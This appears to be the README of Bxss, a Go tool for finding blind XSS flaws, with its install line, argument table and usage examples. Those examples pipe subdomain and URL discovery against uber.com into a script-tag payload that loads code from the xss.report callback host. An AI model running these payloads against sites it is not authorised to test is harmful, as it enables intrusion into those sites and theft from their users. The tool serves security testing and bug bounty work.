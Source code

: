 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---


## 🧠 In Progress

We're actively working on integrating a **Chromium-based worker pool** to enhance the performance of `bxss` on **low-end devices**.

This feature will allow resource-intensive tasks, like DOM-based XSS detection or post-trigger payload inspection, to be offloaded to lightweight Chromium instances managed via a pool. By distributing the workload across multiple headless browser contexts in a controlled and efficient manner, `bxss` will remain responsive and usable even on lower-spec machines.

This will make `bxss` not only powerful but also highly accessible, regardless of system constraints.

---

## ✅ TODOs
- [x] Chromium-based worker pool for DOM interaction and visual verification
- [ ] Optional HTML/JSON reporting output
- [ ] Add support for multi-platform payload customization (XSS Hunter, Interactsh, etc.)
- [ ] Proxy support
- [x] Import custom requests

---

## 🧪 Experimental Features
- Trace mode (experimental)

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
| `-l`          | Enable Trace Mode (experimental)                          | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 📝 What is Trace mode?
Trace mode is an experimental feature that allows you to track where the BlindXSS got triggered, some third party BlindXSS platforms such as [https://xss.report/](https://xss.report/) allows you to specify custom parameters in you're payloads, this allows you to track where the BlindXSS got triggered, for example if you specify the parameter `url=https://somehost.com` in your payload, the tool will use the payload 
```js
'"><script src=https://xss.report/c/username?url=https://somehost.com></script>'
```
for testing and upon a trigger you will be able to inspect the DOM and see what host the BlindXSS got triggered from.

 <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/xss.report.png" alt="Xss Report">

Make sure when assigning custom parameters in you're dashboard that you assign `url={LINK}` so bxss can automatically replace `{LINK}` with the actual URL. 

## 🔥 Usage Examples

### Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Append To Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Both Headers & Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### X-Forwarded-For Header
```bash
subfinder -d uber.com \
| gau \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "X-Forwarded-For"
```

### Custom Headers & Parameters
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### Google Dorks With Dorki
```bash
curl -X GET -H "Authorization: Bearer <Token>" \
-H "X-Secret-Key: <Secret>" \
https://dorki.attaxa.com/api/search?q=site:example.com -s \
| jq -r .[][].url \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>'
```

### Custom Headers & Parameters With Rate Limit
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \ 
-t \
-rl 10
```

### Using Chromium Browser Pool
```bash
# Scan with a pool of 4 Chrome browsers for DOM-based detection
cat urls.txt | bxss -p '><script src=https://xss.report/c/username></script>' \
-browser chromium \
-workers 4
```

### Using Custom Request File
```bash
# Process all requests in the file with the specified payload
bxss -request requests.txt -p '><script src=https://xss.report/c/username></script>'
```

For advanced dorking and vulnerability exploration, check out [Dorki](https://dorki.attaxa.com/) and sign up today!

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>

